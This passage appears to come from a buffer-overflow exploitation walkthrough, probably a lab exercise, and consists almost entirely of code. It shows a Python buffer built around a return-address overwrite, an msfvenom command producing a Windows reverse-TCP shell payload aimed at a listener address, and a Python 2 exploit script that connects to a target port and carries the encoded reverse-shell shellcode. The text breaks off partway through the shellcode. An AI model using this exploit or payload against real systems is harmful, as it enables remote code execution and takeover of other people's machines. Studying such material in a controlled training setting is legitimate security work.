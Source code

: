 ```python
    #SRP overwrite struct.pack() is converting pointer to little-endian format
    buf += struct.pack("<I", ptr_jmp_esp)  
    #ESP points here
    buf += sub_esp_10                       
    #Our Exploit code
    buf += shellcode_calc                  
    #Trailing padding
    buf += "D"*(buf_totlen - len(buf))    
    buf += "\n" </li>
```


### Step 7 - RCE

Generate RCE/ reverse shell exploit

- Set localhost and port
- Remove bad chars 
- format as python
- set variable name (helps when pasting into pre-made script)


```bash
 msfvenom -p windows/shell/reverse_tcp LHOST=192.168.0.208 LPORT=1337 -b '\x00\x0A' -f python --var-name shellcode_rev EXITFUNC=thread 
```

```python
#!/usr/bin/env python2
import socket
import struct

RHOST = "192.168.0.207"
RPORT = 31337

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))

buf_totlen = 1024
offset_srp = 146

ptr_jmp_esp = 0x080414C3

sub_esp_10 = "\x83\xec\x10"

shellcode_rev =  ""
shellcode_rev += "\xba\x4b\xcc\x4a\x71\xd9\xc9\xd9\x74\x24\xf4"
shellcode_rev += "\x5f\x33\xc9\xb1\x5b\x31\x57\x14\x83\xef\xfc"
shellcode_rev += "\x03\x57\x10\xa9\x39\xb6\x99\xaf\xc2\x47\x5a"
shellcode_rev += "\xcf\x4b\xa2\x6b\xcf\x28\xa6\xdc\xff\x3b\xea"
shellcode_rev += "\xd0\x74\x69\x1f\x62\xf8\xa6\x10\xc3\xb6\x90"
shellcode_rev += "\x1f\xd4\xea\xe1\x3e\x56\xf0\x35\xe1\x67\x3b"
shellcode_rev += "\x48\xe0\xa0\x21\xa1\xb0\x79\x2e\x14\x25\x0d"
shellcode_rev += "\x7a\xa5\xce\x5d\x6b\xad\x33\x15\x8a\x9c\xe5"
shellcode_rev += "\x2d\xd5\x3e\x07\xe1\x6e\x77\x1f\xe6\x4a\xc1"
shellcode_rev += "\x94\xdc\x21\xd0\x7c\x2d\xca\x7f\x41\x81\x39"
shellcode_rev += "\x81\x85\x26\xa1\xf4\xff\x54\x5c\x0f\xc4\x27"
shellcode_rev += "\xba\x9a\xdf\x80\x49\x3c\x04\x30\x9e\xdb\xcf"
shellcode_rev += "\x3e\x6b\xaf\x88\x22\x6a\x7c\xa3\x5f\xe7\x83"
shellcode_rev += "\x64\xd6\xb3\xa7\xa0\xb2\x60\xc9\xf1\x1e\xc7"
shellcode_rev += "\xf6\xe2\xc0\xb8\x52\x68\xec\xad\xee\x33\x79"
shellcode_rev += "\x02\xc3\xcb\x79\x0c\x54\xbf\x4b\x93\xce\x57"
shellcode_rev += "\xe0\x5c\xc9\xa0\x71\x4a\xea\x7f\x39\x1a\x14"
shellcode_rev += "\x80\x3a\x33\xd3\xd4\x6a\x2b\xf2\x54\xe1\xab"
shellcode_rev += "\xfb\x80\x9c\xa1\x6b\xeb\xc9\xb5\xbb\x83\x0b"
shellcode_rev += "\xb5\x3e\x6d\x85\x53\x10\xdd\xc5\xcb\xd1\x8d"
```